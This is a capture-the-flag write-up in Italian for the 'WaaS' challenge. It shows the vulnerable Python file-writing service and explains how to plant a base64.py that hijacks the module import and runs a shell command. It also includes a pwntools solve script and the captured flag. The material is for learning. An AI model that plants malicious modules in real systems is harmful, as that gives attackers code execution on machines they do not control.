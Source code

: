 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
]
draft = true
+++

# Waas

**Descrizione**: Writing as a Service!

**Autori**: NoobMaster + NoobHacker

**Punti**: 491

**Soluzioni**: 78

## Introduction

WaaS (Writing as a Service) ci permette di sovrascrivere un file sul sistema (dopo un certo controllo dell'input) e di inserirvi tutto ciò che vogliamo (fino a quando non si incontra un newline).

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

In un primo momento si potrebbe pensare di provare a bypassare la validazione dell'input, magari riscrivendo il funzionamento del comando cat o del file di sfida stesso, ma questo non è possibile.
Una cosa molto bizzarra è l'importato ma inutilizzato `b64decode` dal modulo `base64`, che è ciò che ci permette di risolvere la sfida.

Quando python importa i moduli, guarda in `sys.path`, che ha un elenco di directory valide da cui importare i moduli. Dopo una rapida ricerca nei [python3 docs](https://docs.python.org/3/library/sys_path_init.html), scopriamo che la prima directory in cui cerca è la stessa directory in cui si trova il file, il che significa che se abbiamo un file `base64.py` nella directory, allora python cercherà di importare un simbolo `b64decode` da quel file, invece del comune modulo conosciuto.
Un'altra caratteristica del comportamento di importazione di python che possiamo usare è che tutto il codice di un modulo importato sarà eseguito. Per esempio, se un file `test.py` ha `print('Hello, World!')` e può essere eseguito (per esempio se è al livello di indentazione più basso), un file con `import test` vedrà effettivamente `Hello, World!` stampato su `stdout`.
Pertanto, poiché la funzione `open` con una flag `'w' creerà un file se non esiste, possiamo semplicemente creare un file chiamato base64.py` e scriverci dentro il nostro codice malevolo.

Qualcosa del genere farà al caso vostro:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

Ma la flag non è ancora nostro; dobbiamo sfruttare il fatto che l'istanza non resetta i suoi file ogni volta che ci si connette, il che significa che il nostro `base64.py` rimarrà nella cartella per tutta la durata dell'istanza. Questo significa che dobbiamo semplicemente riconnetterci e ottenere la flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```text
$ flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
